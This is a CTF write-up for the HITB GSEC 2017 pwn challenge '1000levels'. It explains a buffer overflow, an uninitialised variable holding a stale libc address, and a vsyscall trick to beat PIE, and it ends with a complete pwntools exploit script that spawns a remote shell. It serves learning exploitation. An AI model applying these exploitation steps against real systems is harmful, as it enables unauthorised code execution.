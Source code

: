 ```yaml
---
layout: post
title: "[HITB GSEC Singapore 2017] [Pwn] 1000levels"
---
```


### Description

It's more diffcult.

nc 47.74.147.103 20001

[Download Attachments](https://hitb.xctf.org.cn/media/task/498a3f10-8976-4733-8bdb-30d6f9d9fdad.gz)

### Analysis

Firstly, I check this file 

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

This program have some functions :

1. Go
2. Hint
3. Give up

After open file in IDA. It's easy to see the first vuln : **bof**

```C
for ( i = read(0, &buf, 1024uLL); i & 7; ++i )
        *(&buf + i) = 0;
```

With this vuln, you can ret to anywhere. But `PIE` enabled, so you can't ret to any addr in program to leak stack or libc.

Studdenly, i remember a trick to bypass this `PIE`. Using `vsyscall`. The addr of `vsyscall` static in kernel. It just has some gadget to ret to the next addr in stack. If the next addr is in libc , You can overwrite some byte to return to addr you want in libc. But the line `*(&buf + i) = 0;` prevent you to do it.

I was stuck at this for a long time ... 

Then my bro in my team told me that i should debug more carefully at the step input number.

```C

 puts("How many levels?");
  v2 = read_num();
  if ( v2 > 0 )
    v5 = v2;
  else
    puts("Coward");
  puts("Any more?");
  v3 = read_num();
  v5 = v5 + v3;

```

if `v2 <=0` then `v5` **uninitialized** . Actually,  I had seen this vuln before, but i have no idea to do with it. Then i realized i haven't used the function `Hint` yet.

```C

if ( show_hint )
  {
    sprintf(&v1, "Hint: %p\n", &system, &system);
  }

```

This case never come true 'cause you can't change the value of `show_hint`. But after run this function, the libc function `system` will be in stack ! And more magicly is it's in the addr of `v5`. So everything will easy now.

### My exploit scenario : 

1. Run `Hint` 
2. Run `Go`
   - Input `<=0` number at first time 
   - Input the distance from `system` addr to the `one_gadget` addr in libc (cause `v5 = v5 + v3` )
   - Pass some levels to come nearly `v5` addr
   - Use **bof** vuln and vsyscall to ret to `v5` addr
   - Get shell and cat flag !!!

After debugging and calculating,i realized that after pass **997** levels, `rsp` will be near  `v5` address.



### Exploit code : 

```python
from pwn import *
vsyscall=0xffffffffff600000
one_gadget=0xf0274 # this offset conditions fit to this program

libc=ELF('libc.so.6')

def main(argv):
	if len(argv)<2:
		r=process('./1000levels')
	else:
		r=remote('47.74.147.103',20001)
	#pause()
	# Hint
	r.recvuntil('Choice:')
	r.sendline('2')

	# Go
	r.recvuntil('Choice:')
	r.sendline('1')

	r.recvuntil('levels?')
	r.sendline('-1')
	r.recvuntil('more?')
	to_one_gadget=one_gadget-libc.symbols['system']
	r.sendline(str(to_one_gadget))

	log.info('Calculating ... ')
	for i in xrange(997):
		r.recvuntil(': ')
		data=r.recvuntil(' =')
		#print data
		d=eval(data[:len(data)-1])
		r.recvuntil('Answer:')
		r.sendline(str(d))
	log.info('Done')
	#pause()
	r.recvuntil('Answer:')
	pl=""
	pl+="0"*56+p64(vsyscall)*23
	r.send(pl)
	
	r.interactive()

main(sys.argv)

```

![aa](http://i.imgur.com/3yFOeED.png)



I can't solve this challenge in the contest, and my team have no pwn : (. But at least, i learned many things from this challenge and the contest. 

Thank you **Peternguyen** for the hint and my teammate **QD** .

Congratz the HITB GSEC CTF runner-up **Injocker10K** from my team !



